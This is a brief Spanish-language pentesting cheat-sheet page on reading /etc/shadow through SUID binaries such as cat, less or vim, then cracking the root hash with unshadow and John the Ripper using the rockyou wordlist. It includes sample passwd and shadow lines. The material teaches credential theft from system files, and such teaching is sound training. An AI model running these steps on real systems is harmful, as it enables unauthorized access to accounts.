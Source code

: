 ```yaml
---
title: "Crack /etc/shadow"
layout: "single"
category: "Linux Pentesting"
slug: "linux-pentesting/explotación"
date: "2025-09-30"
---
```


### Crack /etc/shadow
Al encontrar forma de leer ficheros que pertenecen a **root**, por ejemplo con permiso SUID a ___cat, less, vim___ , podemos intentar leer el fichero **/etc/shadow** y crackearlo.

neceistamos:
* /etc/passwd (con la linea donde aparece root)
* /etc/shadow (con la linea donde aparece root)

EJEMPLO:
```
/etc/passwd
root:x:0:0:root:/root:/bin/bash

/etc/shadow
root:6riekpK4m$uBdaAyK0j9WfMzvcSKYVfyEHGtBfnfpiVbYbzbVmfbneEbo0wSijW1GQussvJSk8X1M56kzgGj8f7DFN1h4dy1:18226:0:99999:7:::
```


Primero ejecutamos unshadow, y luego pasamos john the ripper
```bash
unshadow passwd shadow > unshadowed.txt

john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
```



